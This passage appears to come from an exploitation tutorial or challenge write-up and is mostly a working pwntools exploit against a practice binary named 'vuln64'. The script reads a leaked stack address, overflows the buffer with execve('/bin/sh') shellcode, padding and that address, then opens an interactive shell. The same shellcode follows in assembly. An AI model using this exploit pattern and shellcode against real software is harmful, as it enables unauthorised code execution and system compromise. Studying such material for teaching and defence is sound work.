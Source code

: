 This is the exploit which I wrote for this section:

```
# Import pwn tools
from pwn import *

# Establish the target process, and attach gdb
target = process('vuln64')
#gdb.attach(target, gdbscript = 'b *0x400585')

# Get the address being leaked, strip the newline, and convert it to and integer
infoleak = target.recvline().replace("\x0a", "")
address = int(infoleak, 16) 

# Establish the shellcode:
'''
  400080:   48 bf 2f 62 69 6e 2f    movabs rdi,0x68732f6e69622f
  400087:   73 68 00 
  40008a:   57                      push   rdi
  40008b:   54                      push   rsp
  40008c:   5f                      pop    rdi
  40008d:   48 31 f6                xor    rsi,rsi
  400090:   48 31 d2                xor    rdx,rdx
  400093:   b8 3b 00 00 00          mov    eax,0x3b
  400098:   0f 05                   syscall 
'''
shellcode = "\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x54\x5f\x48\x31\xf6\x48\x31\xd2\xb8\x3b\x00\x00\x00\x0f\x05"

# Construct the payload
payload = shellcode + ((0x78 - len(shellcode))*"0") + p64(address)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
```
 
#### Writing Shellcode 

 Now when we write shellcode, we are writitng assembly code. So here is the shellocde:
 
```
	mov rdi, 0x0068732f6e69622f
	push rdi
	push rsp
	pop rdi
	xor rsi, rsi
	xor rdx, rdx
	mov rax, 0x3b
	syscall
```
 